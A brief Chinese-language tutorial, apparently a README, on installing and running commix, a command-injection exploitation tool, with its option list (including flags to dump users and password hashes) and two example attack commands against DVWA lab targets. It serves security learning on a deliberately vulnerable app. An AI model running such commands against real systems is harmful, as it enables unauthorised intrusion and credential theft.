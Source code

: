 Command Injection
=
安装方法
-
在 https://github.com/commixproject/commix/releases 下下载commix压缩包，直接解压即可(由于新版v2.4出现了问题，v2.2经尝试可行)

使用说明
-
### 基本要素
commix.py –url=”” –data=”” –cookie=””
commix.py为打开我们的commix脚本，其次还需要输入对应的攻击网址url，data与cookie的相关数据
### 更多用法
    Options:
      -h, --help            Show help and exit.
    Target:
      -u URL, --url=URL     Target URL.
    Request:
      -d DATA, --data=..    Data string to be sent through POST.
      --host=HOST           HTTP Host header.
      --referer=REFERER     HTTP Referer header.
      --user-agent=AGENT    HTTP User-Agent header.
      --cookie=COOKIE       HTTP Cookie header.
      --cookie-del=CDEL     Set character for splitting cookie values.
    Enumeration:
      --all               Retrieve everything.
      --sys-info          Retrieve system information.
      --users             Retrieve system users.
      --passwords         Retrieve system users password hashes.
      --privileges        Retrieve system users privileges.
      --ps-version        Retrieve PowerShell's version number.
      Detection:
      --level=LEVEL       Level of tests to perform (1-3, Default: 1).
更多用法请见https://github.com/commixproject/commix/wiki/Usage， https://tools.kali.org/exploitation-tools/commix

### 示例
#### DVWA
root@kali:~/commix# python commix.py --url="http://192.168.178.58/DVWA-1.0.8/vulnerabilities/exec/#" --data="ip=127.0.0.1&Submit=Submit" --cookie="security=medium; PHPSESSID=nq30op434117mo7o2oe5bl7is4" </br>

更多示例请见https://github.com/commixproject/commix/wiki/Usage-Examples， https://tools.kali.org/exploitation-tools/commix


- source: https://tools.kali.org/exploitation-tools/commix
```
root@speit-PowerEdge-T430:/home/speit/Downloads/commix-2.1-20171003# python commix.py --url http://192.168.5.100/vulnerabilities/exec/ --data="ip=INJECT_HERE&Submit=Submit" --cookie="security=low; PHPSESSID=upjio7inblkt07rte0eagcg045"
```
